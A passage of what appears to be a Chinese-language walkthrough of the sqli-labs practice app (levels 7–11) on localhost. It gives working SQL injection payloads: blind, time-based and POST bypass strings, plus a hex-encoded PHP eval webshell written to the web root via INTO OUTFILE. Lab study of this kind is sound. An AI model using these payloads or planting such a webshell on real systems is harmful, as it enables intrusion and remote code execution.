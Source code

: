 ```php
```
![Pasted image 20250314111716](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250314111716.png)
利用文件读写注入写入木马：
写入一句话木马：
```php
正常Payload:<?php eval($_POST['pwd']);?>
十六进制：0x3c3f706870206576616c28245f504f53545b27707764275d293b3f3e

http://localhost/sqli-labs/Less-7/?id=-1')) UNION SELECT 1,2,0x3c3f706870206576616c28245f504f53545b27707764275d293b3f3e into outfile 'C:\\phpstudy_pro\\WWW\\hack.php' --+
```
连接地址：http://localhost/hack.php
连接密码：pwd
![Pasted image 20250314132112](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250314132112.png)
# Less-8
'闭合 布尔盲注
使用的注入语句和第五关的布尔盲注一样
示例，判断长度：
```
http://localhost/sqli-labs/Less-8/?id=1'and length((select database()))>7 --+
```
![Pasted image 20250317132316](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317132316.png)
写shell：
```
http://localhost/sqli-labs/Less-8/?id=-1' UNION SELECT 1,2,0x3c3f706870206576616c28245f504f53545b27707764275d293b3f3e into outfile 'C:\\phpstudy_pro\\WWW\\hack.php' --+
```
![Pasted image 20250317132457](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317132457.png)
链接成功。
![Pasted image 20250317132622](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317132622.png)
# Less-9
基于GET单引号基于时间盲注
如果当前数据库名字符长度大于1，则执行sleep函数使数据库执行延迟，否则则返回1。
```
http://localhost/sqli-labs/Less-9/?id=1' and if(length(database())>1,sleep(5),1) --+
延迟5秒
```
![Pasted image 20250317140308](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317140308.png)
# Less-10
基于GET双引号基于时间盲注
与第9关差不多，只不过闭合方式变成双引号了
```
http://localhost/sqli-labs/Less-10/?id=1" and if(length(database())>1,sleep(5),1) --+
延迟5秒
```
![Pasted image 20250317140607](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250317140607.png)
# Less-11
基于单引号的POST注入
**单引号测试：**
```php
uname=admin' and 1=1 --+ &passwd=&submit=Submit
```
